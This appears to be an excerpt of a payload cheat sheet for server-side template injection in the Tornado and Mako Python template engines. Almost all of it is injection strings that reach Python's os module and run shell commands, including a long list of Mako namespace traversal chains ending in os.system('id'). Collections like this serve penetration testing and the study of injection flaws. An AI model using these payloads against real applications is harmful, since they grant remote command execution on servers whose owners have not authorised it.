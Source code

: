 
#### Tornado

Command execution

```python
{% import os %}

{{os.system('id')}}
```

#### Mako

Command execution

```python
<%
import os

x=os.popen('id').read()

%>

${x}
```

Command execution via TemplateNamespaces

```python
${self.module.cache.util.os.system("id")}

${self.module.runtime.util.os.system("id")}

${self.template.module.cache.util.os.system("id")}

${self.module.cache.compat.inspect.os.system("id")}

${self.__init__.__globals__['util'].os.system('id')}

${self.template.module.runtime.util.os.system("id")}

${self.module.filters.compat.inspect.os.system("id")}

${self.module.runtime.compat.inspect.os.system("id")}

${self.module.runtime.exceptions.util.os.system("id")}

${self.template.__init__.__globals__['os'].system('id')}

${self.module.cache.util.compat.inspect.os.system("id")}

${self.module.runtime.util.compat.inspect.os.system("id")}

${self.template._mmarker.module.cache.util.os.system("id")}

${self.template.module.cache.compat.inspect.os.system("id")}

${self.module.cache.compat.inspect.linecache.os.system("id")}

${self.template._mmarker.module.runtime.util.os.system("id")}

${self.attr._NSAttr__parent.module.cache.util.os.system("id")}

${self.template.module.filters.compat.inspect.os.system("id")}

${self.template.module.runtime.compat.inspect.os.system("id")}

```
